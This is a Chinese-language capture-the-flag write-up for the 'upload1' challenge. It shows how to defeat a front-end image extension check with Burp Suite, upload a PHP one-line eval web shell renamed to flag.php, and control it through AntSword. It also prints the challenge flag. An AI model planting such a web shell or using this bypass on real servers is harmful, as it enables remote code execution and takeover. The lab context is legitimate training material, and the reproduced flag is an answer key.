



# upload1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=8f2c8d98-0a36-4744-b57f-0850a4c468d8_2)

打开提供的场景，发现是个平平无奇的文件上传。检查一下前端的代码。



有点简陋的格式检查代码，直接通过查看后缀名来判断是不是图片（甚至连传个jpeg后缀都不行……）。那这个就很简单了，尝试传个php一句话木马。

```php
<?php @eval($_POST['shell']);?>
```

这里eval会把参数里的字符串当作php代码执行，@是错误抑制符，防止出错后报错（不这么搞要是报错了就被网站管理员发现了(･･;)）。<?php 和 ?> 是php固定的标记，表示这两个符号里包括的是PHP代码。$_POST读取post请求。

### $_POST
- 当 HTTP POST 请求的 Content-Type 是 application/x-www-form-urlencoded 或 multipart/form-data 时，会将变量以关联数组形式传入当前脚本。

为了绕过前端的检查，我们需要改一下php文件的后缀名。但是改了后就直接传上去虽然不会弹出提示，但是我们也连不了。笨笨的计算机看到jpg后缀就不会往php去想了，所以我们要做点手脚，上传后再把后缀改回来。这里可以使用burpsuite的拦截功能。

### Tips
- 使用burpsuite内置的浏览器可以在不用配置代理的情况下实现拦截包，方便快捷。
- 成功拦截到包以后点击HTTP History，右键目标包选择Send to Repeater，这样就可以修改包内容并预览发送出去的结果了。

这里我们把请求的filename选项改成"flag.php",点击Send就可以看到返回的结果了。



把显示的上传路径复制粘贴到蚁剑中（右键->添加数据），并填写密码“shell”（这个根据之前一句话木马$_POST所填的参数决定），就能找到flag了。



## Flag
> cyberpeace{59a333a44d9d5e1d354c8c3cfca7aa24}